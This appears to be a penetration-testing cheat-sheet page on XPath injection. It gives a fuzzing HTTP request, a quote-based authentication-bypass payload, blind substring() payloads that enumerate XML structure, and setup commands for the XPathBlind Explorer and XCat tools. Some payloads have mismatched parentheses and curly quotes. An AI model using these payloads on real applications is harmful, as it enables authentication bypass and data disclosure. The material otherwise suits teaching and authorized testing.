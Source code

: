 ```yaml
---
title: "XPath Injection"
description: "XPath Injection"
lead: "XPath Injection"
date: 2020-10-13T15:21:01+02:00
lastmod: 2020-10-13T15:21:01+02:00
draft: false
images: []
menu: 
  docs:
    parent: "prologue"
weight: 130
toc: true
---
```

XPathInjection can be achieved in a similar fashion to traditional SQL injection.


{{< alert icon="💡" text="You can change the commands in the scripts section of `./package.json`." >}}

## Manual Exploitation

### Parameter Fuzzing

Use commas or apostrophies to fuzz parameters

{{< btn-copy text="npm run start" >}}

```html
POST /vulnerable.php HTTP/1.1
Host: vuln.xpath.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: vuln.xpath.org
Connection: close
Referer: vuln.xpath.org
Upgrade-Insecure-Requests: 1

email=test@test_email.com'
```
### Simple Authentication Bypass 

If no input filtering takes place, the following bypass line can be attempted.  

{{< btn-copy text="testUsername’ or ‘a’=’a’ or ‘a’=’a" >}}

```bash
testUsername’ or ‘a’=’a’ or ‘a’=’a
```

### Testing True/False Conditions

If a paramter is vulnerbale to an XPath injection, attempt passing arguments to reveal if the application changes based on a true or false condition

{{< btn-copy text="testUsername’ or ‘a’=’a’ or ‘a’=’a" >}}

```bash
testUsername’ or ‘a’=’a’ or ‘a’=’a
```

### Enumerate XML Structure

Use the following commands to check if the requested character matches with the `n` character of the root element. Note that this will only work if the true/false condition indicates a difference between the two conditions. 

{{< btn-copy text="foo‘ or substring(name(/*[1],2,1)=’a ">}}

```bash
foo‘ or substring(name(/*[1],1,1)=’a
```

```bash
foo‘ or substring(name(/*[1],1,1)=’b
foo‘ or substring(name(/*[1],1,1)=’c
foo‘ or substring(name(/*[1],1,1)=’d  

... and so forth, then try the next character

foo‘ or substring(name(/*[1],2,1)=’a
```


## Tools 

### XPathBlind Explorer

XPathBlind Explorer is an archived windows binary executable that can run automatic blind xpath injections. The GUI is outdated but works nonetheless.  

Download the binary <a href="https://code.google.com/archive/p/xpath-blind-explorer/downloads">here</a>. 

#### Installing Wine

If your running in Kali Linux, you will need to use WINE, a Windows emulator for linux. Use the following commands to install WINE. 

{{< btn-copy text="sudo dpkg --add-architecture i386" >}}

```bash
sudo dpkg --add-architecture i386
```  
{{< btn-copy text="sudo apt-get update " >}}

```bash
sudo apt-get update 
```  
{{< btn-copy text="sudo apt-get install wine:i386" >}}

```bash
sudo apt-get install wine:i386
```  
{{< btn-copy text="sudo apt-get install wine-bin:i386" >}}

```bash
sudo apt-get install wine-bin:i386
```  

#### Launching XPathBlind Explorer with WINE

{{< btn-copy text="wine XPathBlindExplorer.exe" >}}

```bash
wine XPathBlindExplorer.exe
```  



### XCat 

Xcat is a command line tool for automated XPath injection. It can be downloaded <a href="https://github.com/orf/xcat">here</a>


While you can install it a few ways, I found it easiest to run through docker.  

{{< btn-copy text="docker run -it tomforbes/xcat --help" >}}

```html
docker run -it tomforbes/xcat --help
```  
